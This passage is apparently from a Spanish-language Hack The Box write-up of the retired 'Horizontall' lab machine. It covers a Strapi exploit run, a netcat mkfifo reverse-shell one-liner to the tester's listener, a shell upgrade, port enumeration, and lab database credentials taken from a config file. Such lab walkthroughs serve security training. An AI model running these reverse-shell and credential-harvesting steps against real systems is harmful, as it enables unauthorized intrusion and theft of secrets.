 *`python3 50239.py http: //api-prod.horizontall.htb/*`

![](/home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/18.png)

Tenemos unas nuevas credenciales de admin pero hey, tambien podemos realizar un RCE, asi que vamos a dejar netcat a la escucha por el puerto `4444` y amos a ejecutar el siguiente RCE para obtener un reverse shell

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.142 4444 >/tmp/f`

![](/home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/19.png)

Hagamos un upgrade a nuestra shell : python3 -c "import pty;pty.spawn ('/ bin/bash')"

Tenemos user.txt :)

<img title="" src="file:///home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/20.png" alt="" width="567">

## Privilege Escalation

Haciendo checklist basico de enumeracion en busquedad de archivo SUID, procesos, cronjobs,etc, no encontre nada hasta llegar al punto de ver las conexiones que tiene la maquina, usando `netstat -ntlp`  me doy cuenta de varios puertos a la escucha :)

<img src="file:///home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/21.png" title="" alt="" width="667">

El puerto 1337 es la instancia del API, por otro lado el puerto 3306 es de MySQL :) ....pero y el 8000? este me llama la atencion.

Si hacemos un curl al puerto 8000 obtenemos lo siguiente :

<img src="file:///home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/22.png" title="" alt="" width="708">

Esta corriendo una instancia de Laravel :)

Bien, antes de seguir me interesa saber si en los archivos de config de Strapi tengo permisos de lectura y si por casualidad hay unas credenciales.

En la ruta `/opt/strapi/myapi/config/environments/development` encontramos lo que buscabamos.

![](/home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/23.png)

```bash
Username: developer
Password: #J!:F9Zt2u
```

Intente utilizar estas credenciales via SSH pero no funcionaron.

| **mysql -u developer -p** 

<img src="file:///home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/24.png" title="" alt="" width="739">

Honestamente no nos interesa nada de la DB, asi que queda hacer un Port Fordward del puerto 8000 a nuestra maquina, en este caso con `Chisel` que es excelente para este tipo de tareas.
